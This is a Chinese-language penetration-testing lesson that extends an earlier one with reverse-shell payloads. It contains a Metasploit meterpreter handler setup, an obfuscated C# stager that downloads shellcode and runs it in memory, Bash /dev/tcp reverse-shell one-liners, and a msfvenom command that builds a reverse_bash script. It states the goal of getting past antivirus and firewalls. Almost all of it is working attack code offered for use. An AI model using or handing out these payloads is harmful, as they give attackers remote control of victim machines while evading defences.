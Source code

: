 ### 10.7 基于第十课补充payload（二）

在实战中可能会遇到各种诉求 payload，并且可能遇到各种实际问题，如杀毒软件，防火墙拦截，特定端口通道，隧道等问题。这里我们根据第十课补充其中部分，其他内容后续补充。

这次主要补充了 C#，Bash

ps:在线代码高亮：

    http://tool.oschina.net/highlight
    
        

**1、C#-payload**

    msf > use exploit/multi/handler
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp 
    payload => windows/meterpreter/reverse_tcp
    msf exploit(handler) > set LHOST 192.168.1.107
    LHOST => 192.168.1.107
    
        

**混淆：**

    using System; using System.Net; using System.Net.Sockets; using System.Runtime.InteropServices; using System.
    namespace RkfCHtll { class LiNGeDokqnEH {
    static byte[] idCWVw(string VVUUJUQytjlL, int eMcukOUqFuHbUv) {
        IPEndPoint nlttgWAMdEQgAo = new IPEndPoint(IPAddress.Parse(VVUUJUQytjlL),
    eMcukOUqFuHbUv); 
        Socket fzTiwdk = new Socket(AddressFamily.InterNetwork,
    SocketType.Stream, ProtocolType.Tcp); 
        try { fzTiwdk.Connect(nlttgWAMdEQgAo);}
        catch { return null;}
        byte[] gJVVagJmu = new byte[4];
        fzTiwdk.Receive(gJVVagJmu, 4, 0);
        int GFxHorfhzft = BitConverter.ToInt32(gJVVagJmu, 0);
        byte[] mwxyRsYNn = new byte[GFxHorfhzft + 5]; 
        int yVcZAEmXaMszAc = 0;
        while (yVcZAEmXaMszAc < GFxHorfhzft)
        { yVcZAEmXaMszAc += fzTiwdk.Receive(mwxyRsYNn,yVcZAEmXaMszAc + 5, (GFxHorfhzft - yVcZAEmXaMszAc) < 4096 
        byte[] XEvFDc = BitConverter.GetBytes((int)fzTiwdk.Handle);
        Array.Copy(XEvFDc, 0, mwxyRsYNn, 1, 4); mwxyRsYNn[0] = 0xBF;
        return mwxyRsYNn;}
    static void hcvPkmyIZ(byte[] fPnfqu) {
        if (fPnfqu != null) {
            UInt32 hcoGPUltNcjK = VirtualAlloc(0,(UInt32)fPnfqu.Length, 0x1000, 0x40);
            Marshal.Copy(fPnfqu, 0, (IntPtr)(hcoGPUltNcjK), fPnfqu.Length);
            IntPtr xOxEPnqW = IntPtr.Zero; 
            UInt32 ooiiZLMzO = 0;
            IntPtr wxPyud = IntPtr.Zero;
            xOxEPnqW = CreateThread(0, 0, hcoGPUltNcjK, wxPyud, 0, ref ooiiZLMzO);
            WaitForSingleObject(xOxEPnqW, 0xFFFFFFFF); }}
    static void Main(){
        byte[] dCwAid = null; dCwAid = idCWVw("xx.xx.xx.xx", xx);
        hcvPkmyIZ(dCwAid); }
            [DllImport("kernel32")] private static extern UInt32 VirtualAlloc(UInt32 qWBbOS,UInt32 HoKzSHMU, UInt [DllImport("kernel32")]private static extern
    IntPtr CreateThread(UInt32 tqUXybrozZ, UInt32 FMmVpwin, UInt32 H
    [DllImport("kernel32")] private static extern UInt32
    WaitForSingleObject(IntPtr CApwDwK, UInt32 uzGJUddCYTd);
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009162619591.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
**2、Bash-payload**

    i >& /dev/tcp/xx.xx.xx.xx/xx 0>&1
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009162638122.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

    exec 5<>/dev/tcp/xx.xx.xx.xx/xx
    cat <&5 | while read line; do $line 2>&5 >&5;done
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009162650532.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
附录：-
**msfvenom 生成 bash**

    root@John:~# msfvenom -p cmd/unix/reverse_bash LHOST=xx.xx..xx.xx LPORT=xx > -f raw > payload.sh
    
        

参数简化 项目地址：

    https://github.com/g0tmi1k/mpc
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201009162714173.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)

* * *